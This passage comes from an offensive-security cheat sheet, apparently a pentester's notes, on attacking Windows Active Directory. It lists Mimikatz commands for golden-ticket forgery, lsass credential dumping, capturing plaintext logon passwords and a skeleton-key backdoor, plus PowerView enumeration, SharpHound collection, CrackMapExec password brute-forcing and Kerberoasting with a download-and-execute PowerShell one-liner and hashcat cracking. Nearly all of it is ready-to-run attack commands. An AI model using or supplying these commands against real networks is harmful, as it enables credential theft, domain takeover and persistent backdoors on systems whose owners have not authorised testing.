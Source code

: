         - `klist`
    - Golden Ticket (Need RDP)
        - Need Domain Admins
        - `lsadump::lsa /inject /name:krbtgt`
            - Remember **Domain SID**, **User** and **Primry NTLM**
        - `kerberos::golden /user:{self_user} /domain:{domain} /sid:{SID} /krbtgt:{NTLM} /id:500`
        - `misc::cmd`
    - Offline Dump Information
        - Dump `lsass.exe` to attacker
        - `sekurlsa::minidump {lsass_file}`
    - Get Hot Login Password
        - `misc::mimilsa`
        - `C:\Windows\System32\mimilsa.log`
    - Backdoor
        - Set pasword "mimikatz"
        - NTLM of "mimikatz" `60BA4FCADC466C7A033C178194C03DF6`
        - `misc::skeleton`
- PowerView
    - Run `. .\PowerView.ps1`
    - Get Information
        - User `Get-NetUser`
        - Group `Get-NetGroup`
        - Computer `Get-NetComputer -FullData`
        - SMB Share `Invoke-ShareFinder`
- Bloodhound
    - SharpHound.exe
        - Dump Information
            - `SharpHound.exe -c all -d {domain} --zipfilename loot.zip`
- CrackMapExec
    - [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
    - Usage
        - `crackmapexec {protocol} {IP} -u {user} -p {password}`
            - `--local-auth` Try local login
    - Brute Machines Known Username and Password
        - `crackmapexec smb {IP_file} -u {user} -p {password}`
    - Brute Username Known Password
        - `crackmapexec smb {IP} -u {user_file} -p {password}`
    - Brute Password Known Username
        - `crackmapexec smb {IP} -u {user} -p {password_file}`
- http://md.stevenyu.tw/zeDGpHb-RVSi0K5xF1HRsQ
- https://hackmd.io/@aifred0729/rkF_qGAYF

#### Kerberoast
- Get User Hash
    - [Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://{IP}/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```
`hashcat -m 13100 hash.txt rockyou.txt`
